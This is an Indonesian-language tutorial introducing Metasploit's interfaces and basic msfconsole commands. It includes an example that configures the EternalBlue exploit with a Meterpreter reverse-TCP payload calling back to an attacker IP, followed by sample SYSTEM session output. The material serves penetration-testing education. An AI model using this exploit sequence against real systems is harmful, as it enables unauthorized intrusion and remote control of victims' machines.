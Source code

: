 # Antarmuka Metasploit Framework

`Metasploit Framework` memiliki beberapa antarmuka yang bisa digunakan oleh user, mulai dari CLI (Command Line Interface) hingga GUI (Graphical User Interface). Namun, yang paling sering digunakan dan paling powerful adalah CLI melalui `msfconsole`.

Jenis-jenis Antarmuka Metasploit:

| Antarmuka | Deskripsi |
|:--:|:--:|
| `msfconsole` | Antarmuka utama berbasis CLI, digunakan untuk menjalankan `modul`, `payload`, dan `eksploitasi`. |
| `msfvenom` | CLI untuk membuat payload secara manual. |
| [Armitage](https://www.offsec.com/metasploit-unleashed/armitage/) (GUI) | Antarmuka grafis berbasis Java (sudah jarang digunakan). |
| [Metasploit Pro](https://docs.rapid7.com/metasploit/) (GUI berbayar) | Antarmuka komersial dengan fitur profesional seperti laporan dan automasi. |

## A. MSFconsole – Antarmuka Utama Metasploit

   1. Menjalankan MSFconsole:

      ```
      msfconsole
      ```

      Saat dijalankan, akan muncul banner:

      ```
             =[ metasploit v6.4.56-dev                          ]
      + -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
      + -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
      + -- --=[ 9 evasion                                       ]

      Metasploit Documentation: https://docs.metasploit.com/
      ```

   2. Struktur Dasar Perintah di MSFconsole

      | Perintah | Fungsi |
      |:--:|:--:|
      | `search <NAMA>` | Mencari `exploit`, `payload`, `dll`. |
      | `use <MODUL>` | Memilih modul yang akan digunakan. |
      | `info` | Menampilkan detail tentang modul yang sedang digunakan. |
      | `show options` | Melihat konfigurasi parameter modul. |
      | `set <PARAMETER> <NILAI>` | Mengatur nilai parameter modul. |
      | `exploit` atau `run` | Menjalankan exploit atau modul. |

   3. Contoh Penggunaan MSFconsole:

      ```
      search windows/smb
      use exploit/windows/smb/ms17_010_eternalblue
      show options
      set RHOSTS <IP_TARGET>
      set LHOST <IP_ATTACKER>
      set PAYLOAD windows/meterpreter/reverse_tcp
      exploit
      ```

## B. Fitur Tambahan di MSFconsole

   | Fitur | Penjelasan |
   |:--:|:--:|
   | Tab Completion | Tekan `Tab` untuk melengkapi modul atau perintah otomatis. |
   | Command History | Gunakan panah atas `(↑)` untuk melihat perintah sebelumnya. |
   | Background Sessions | Gunakan background untuk menyimpan sesi eksploitasi ke background. |
   | Session Interaction | Gunakan `sessions -i <ID>` untuk membuka kembali sesi eksploitasi. |

## C. Contoh Output dari MSFconsole:

   ```
   msf6 > sessions

   Active sessions
   ===============

     Id  Name  Type                   Information               Connection
     --  ----  ----                   -----------               ----------
     1         meterpreter x86/win32  NT AUTHORITY\SYSTEM       192.168.1.10 -> 192.168.1.5
   ```

## D. Kesimpulan

   `msfconsole` adalah pusat kendali utama dalam Metasploit. Dengan memahami perintah-perintah dasar dan navigasi antarmukanya, kamu bisa mengelola modul eksploitasi, payload, dan sesi secara efisien.

   > Tips: Latih penggunaan msfconsole di lab lokal atau VM agar terbiasa sebelum digunakan dalam skenario nyata.
